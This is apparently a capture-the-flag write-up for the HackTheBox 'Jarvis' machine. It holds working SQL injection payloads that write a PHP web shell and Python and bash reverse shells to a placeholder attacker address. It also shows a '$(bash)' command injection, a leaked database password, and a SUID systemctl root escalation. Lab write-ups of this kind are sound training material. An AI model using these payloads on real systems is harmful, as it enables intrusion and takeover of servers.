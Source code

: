 ```yaml
---
description: Jarvis box from HackTheBox write up.
---
```


# Jarvis

## Nmap scan

```bash
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 1000 -p- <MACHINE_IP>     
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-14 10:55 EDT
Nmap scan report for <MACHINE_IP>
Host is up (0.047s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
64999/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 25.05 seconds
```

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/Jarvis]
└─$ sudo nmap -sC -sV -p22,80,64999 <MACHINE_IP>
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-14 10:57 EDT
Nmap scan report for <MACHINE_IP>
Host is up (0.045s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
64999/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.04 seconds
```

In this case it is a Linux box with only three open ports, two websites and SSH.

## Port 64999

This page just informs that we are banned for 90 seconds, I don't know why because we are good people. Looks like the page always return that, no matter the URL.

I tried to change some headers to request the page but no luck.

## Port 80

Here we see a hotel page, at first glance I can see a domain name: `supersecurehotel.htb` and also an email: `supersecurehotel@logger.htb`. Adding the domain name to my hosts file and visiting it didn't reveal any virtual hosts so let's continue.

The `/room.php` page looks promising, after trying some things looks like the `cod` URL parameter is SQL injectable beacuse after introducing `1 and 4=4` the page showed the first room. 

### SQL Injection

After some trial and error the payload `100 UNION SELECT 1,2,3,4,5,6,7` worked, and showed some of the dummy values used (Don't worry about the encoding because the browser do that for us, at least Firefox).

Time to check what platform we have in front: `100 UNION SELECT 1,2,3,4,@@version,6,7` prints `10.1.37-MariaDB-0+deb9u1` so we are against MySQL. I had a good time enumerating the information of the database but was useless so I will just skip to the fun part.

If the website is using a privileged user we can try to inject files. Using this payload: `100 UNION SELECT 1,2,3,4,@@version,6,7 INTO dumpfile '/var/www/html/images/test.txt'` and checking `/images` confirms that we can write files beacuse our test file is there. Changing the payload a bit: `100 UNION SELECT '<?php',';',';',';','system($_GET[\'cmd\']);',';','?>' INTO outfile '/var/www/html/images/pwn.php'` and going to `/images/pwn.php?cmd=id` confirm that we have now RCE since the page showed: `uid=33(www-data) gid=33(www-data) groups=33(www-data)`.

## Getting a reverse shell

I decided to go for a Python reverse shell, this is the URL encoded payload:
```
export RHOST%3D"<ATACKER_IP>"%3Bexport RPORT%3D<ATACKER_PORT>%3Bpython -c 'import sys%2Csocket%2Cos%2Cpty%3Bs%3Dsocket.socket()%3Bs.connect((os.getenv("RHOST")%2Cint(os.getenv("RPORT"))))%3B[os.dup2(s.fileno()%2Cfd) for fd in (0%2C1%2C2)]%3Bpty.spawn("%2Fbin%2Fsh")'%0A
```

Before sending the payload to the web shell, make sure Netcat is listenning. That way the reverse shell will come back.

## As www-data in the machine

Once we are in, we can get the database credentials: `DBadmin:imissyou`. The only users that can login to the server are `pepper` and `root`:
```bash
www-data@jarvis:/$ cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
pepper:x:1000:1000:,,,:/home/pepper:/bin/bash
```

The database credential with the `pepper` user won't work but we have this:
```bash
www-data@jarvis:/var/www/html/images$ sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```

We can execute the `/var/www/Admin-Utilities/simpler.py` program as `pepper`, maybe we can exploit it. The program has an option to execute a `ping` command and ask for an IP address. After some trial and error looks like the program is not filtering the characters `$`, `(` and `)` so we could inject a command to get a shell as the `pepper` user:
```bash
www-data@jarvis:/var/www/Admin-Utilities$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: $(bash)  
pepper@jarvis:/var/www/Admin-Utilities$
```

Even though it worked... the commands executed in the new shell are not showing any output, so I just executed another reverse shell:
```bash
www-data@jarvis:/var/www/Admin-Utilities$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: $(bash)  
pepper@jarvis:/var/www/Admin-Utilities$ bash -i >& /dev/tcp/<ATACKER_IP>/<ATACKER_PORT> 0>&1
```

And now everything is working:
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8000
listening on [any] 8000 ...
connect to [<ATACKER_IP>] from (UNKNOWN) [<MACHINE_IP>] 40576
pepper@jarvis:/var/www/Admin-Utilities$ ls
ls
simpler.py
test.txt
text.txt
```

We can now grab the user flag under `/home/pepper/user.txt`.

## As Pepper in the machine

The first thing I did was to generate SSH keys for Pepper to get a more stable shell. Now, after checking for SUID files:
```bash
pepper@jarvis:~$ find / -perm /4000 2> /dev/null 
/bin/fusermount
/bin/mount
/bin/ping
/bin/systemctl
/bin/umount
/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```
We can see that `systemctl` is a SUID binary and we can use that to escalate.

### Getting root

Since the `systemctl` binary has the SUID bit it won't drop privileges. The idea is to create a malicious service that will execute a command of our choice. In this case, I will make the service put the SUID bit to the `bash` binary to get easy privilege escalation from our current SSH session:
```bash
pepper@jarvis:~$ cat pwn.service 
[Service]
Type=oneshot
ExecStart=/bin/chmod u+s /bin/bash
[Install]
WantedBy=multi-user.target
```

Once the service is created we have to execute it and we would have a SUID `bash` binary:
```bash
pepper@jarvis:~$ systemctl link /home/pepper/pwn.service 
Created symlink /etc/systemd/system/pwn.service → /home/pepper/pwn.service.
pepper@jarvis:~$ systemctl start pwn.service
pepper@jarvis:~$ ls -l /bin/bash 
-rwsr-xr-x 1 root root 1099016 May 15  2017 /bin/bash
```

So now we can just:
```bash
pepper@jarvis:~$ bash -p
bash-4.4#
```
And get the root flag under `/root/root.txt`.
